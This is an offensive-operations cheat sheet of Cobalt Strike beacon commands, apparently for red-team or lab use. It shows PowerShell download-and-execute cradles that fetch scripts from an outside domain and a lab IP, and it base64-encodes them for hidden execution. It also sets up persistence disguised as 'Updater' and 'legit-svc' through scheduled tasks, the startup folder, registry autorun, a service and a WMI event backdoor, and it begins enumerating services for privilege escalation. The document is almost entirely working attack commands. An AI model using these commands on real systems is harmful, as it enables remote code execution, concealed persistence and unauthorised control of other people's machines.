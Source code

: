 ```powershell
# Default location for powershell
C:\windows\syswow64\windowspowershell\v1.0\powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell

# Encode the payload for handling extra quotes
# Powershell
PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

#Linux
$ echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0

# Final Command
powershell -nop -enc <BASE64_ENCODED_PAYLOAD>
```
## Persistance - Task Scheduler
```powershell
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoAC...GEAIgApACkA" -n "Updater" -m add -o hourly
```
## Persistence - Startup Folder
```powershell
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAo..vAGEAIgApACkA" -f "UserEnvSetup" -m add
```
## Persistence - Registry Autorun
```powershell
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\http_x64.exe
beacon> mv http_x64.exe updater.exe
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```
## Host Persistence (Privileged System User)
```powershell
# Windows Service
beacon> cd C:\Windows
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe legit-svc.exe
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t service -c "C:\Windows\legit-svc.exe" -n "legit-svc" -m add

# Register WMI event to trigger our payload
beacon> cd C:\Windows
beacon> upload C:\Payloads\dns_x64.exe
beacon> powershell-import C:\Tools\PowerLurk.ps1
beacon> powershell Register-MaliciousWmiEvent -EventName WmiBackdoor -PermanentCommand "C:\Windows\dns_x64.exe" -Trigger ProcessStart -ProcessName notepad.exe
```
## Privilege Escalation
```powershell
# Query and Manage all the installed services
beacon> powershell Get-Service | fl
beacon> run wmic service get name, pathname
beacon> run sc query
beacon> run sc qc VulnService2
```